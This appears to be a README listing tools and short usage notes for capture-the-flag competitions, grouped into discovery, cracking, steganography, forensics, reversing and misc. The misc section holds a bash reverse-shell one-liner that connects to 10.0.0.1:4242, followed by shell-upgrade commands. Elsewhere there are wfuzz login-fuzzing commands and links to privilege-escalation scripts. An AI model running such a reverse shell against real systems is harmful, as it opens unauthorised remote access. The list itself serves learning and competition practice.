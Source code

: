 # CTF Tool list

This repo is intended to serve as a list of tools that I've found useful during CTFs and any notes that I've got to go with them.

## Discovery

##### Nmap
Get versions
`nmap -sC -sV <target>`
Basic scan all ports
`nmap -p- <target>`


##### wfuzz
Fuzz urls
`$ wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ.php`
Fuzz post requests
`$ wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"`
Fuzz Cookies
`$ wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ`

##### Gobuster

## Web
Looks for `sitemap.xml` or `robots.txt`

##### Burpsuite
##### SQLMap


## Cracking

##### John the ripper
https://countuponsecurity.files.wordpress.com/2016/09/jtr-cheat-sheet.pdf
##### Hydra
https://github.com/frizb/Hydra-Cheatsheet
##### PadBuster
Used to execute and oracle padding attack

##### Hashcat
https://github.com/frizb/Hashcat-Cheatsheet

## pwn

##### [pwntools](https://github.com/Gallopsled/pwntools)

##### ROP Gadet

## Forensics

##### strings
##### Foremost
##### Bin Walk

##### Volatility
The Volatility Framework isfor the
extraction of digital artifacts from volatile memory (RAM) samples.

https://github.com/volatilityfoundation/volatility
https://github.com/volatilityfoundation/community

## Steg

##### Exiftool
##### Stegsolve
##### [StegCracker](https://github.com/Paradoxis/StegCracker)
Bruteforce steg hide with a wordlist 
##### [steghide](http://steghide.sourceforge.net/)
##### [zsteg](https://github.com/zed-0xff/zsteg)
detect stegano-hidden data in PNG & BMP
##### [jsteg](https://github.com/lukechampine/jsteg)
Lsb stegonography for JPEG
##### pngcheck
##### [stego-toolkit](https://github.com/DominicBreuker/stego-toolkit)
Docker image that does stegonography magic
##### Online tools
https://stylesuxx.github.io/steganography/


## Network
##### Wireshark
##### NetworkMiner
Finds files and other things in pcap files, requires mono

## Reversing

##### Radare
https://github.com/zxgio/r2-cheatsheet/blob/master/r2-cheatsheet.pdf

##### readelf

##### [checksec](https://github.com/slimm609/checksec.sh)
##### angr
##### [z3](https://github.com/Z3Prover/z3)
##### [libc-database](https://github.com/niklasb/libc-database)
https://libc.rip/

## Crypto
##### [Prime factorisation](https://www.alpertron.com.ar/ECM.HTM)

## Misc

##### Reverse Shell
`bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`
`python -c 'import pty; pty.spawn("/bin/sh")'`
`stty raw -echo`

<<<<<<< Updated upstream

##### Linux enumeration
[Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
[Linenum](https://github.com/rebootuser/LinEnum)

##### Wordlists
[Rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)
[SecLists](https://github.com/danielmiessler/SecLists)

###### Cewl 
Wordlist generator

##### Regripper
Windows registery extraction tool, requires wine

## Specs
[PNG](http://www.libpng.org/pub/png/spec/1.2/PNG-Structure.html)


## Links
##### [CyberChef](https://gchq.github.io/CyberChef/)
##### [Virus total](https://www.virustotal.com/)
##### [Have I been Pwned](https://haveibeenpwned.com/)
##### [asm simulator](https://carlosrafaelgn.com.br/asm86/)
##### [Image Puzzle](https://github.com/hummingbird-12/image_puzzle)
##### [Grammar parser](https://github.com/lark-parser/lark)
